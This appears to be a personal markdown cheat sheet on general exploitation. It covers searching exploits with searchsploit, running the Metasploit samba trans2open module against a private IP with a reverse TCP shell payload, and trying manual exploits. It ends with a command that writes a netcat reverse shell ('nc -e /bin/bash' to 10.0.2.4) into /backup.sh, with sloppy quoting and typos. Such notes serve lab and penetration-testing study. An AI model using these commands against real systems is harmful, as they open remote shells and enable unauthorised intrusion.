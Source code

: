 # General exploitation

## Links
exploit-db.com
rapid7.com/db/modules/exploit


## seraching with searchsploit

```
seearchsploit <app>
```
example
```
searchsploit samba

searchsploit mod ssl 2
```

# Exploit with Metasploit
Using samba as an example


search for a codename of exploit or however it shows up in searchsploit
```
search trans2open
```
```
use exploit/linux/samba/trans2open
or 
use 1
```
```
set RHOST 192.168.1.4
```
```
msf5 > show targets
```
```
msf5 > exploit
```
IF IT KEEPS DYING TRY A DIFFERENT TYPE OF PAYLOAD
stageless vs staged
```
msf5 > options
```
```
msf5 > set payload linux/x86/shell_reverse_tcp
```
```
msf5 > exploit
```

# Manual

download exploit if you can find it on github or google

download, compile and run


shit to try:

```
echo '#!/bin/bash
nc -e /bin/bash 10.0.2.4 7337
"
' > /backup.sh
```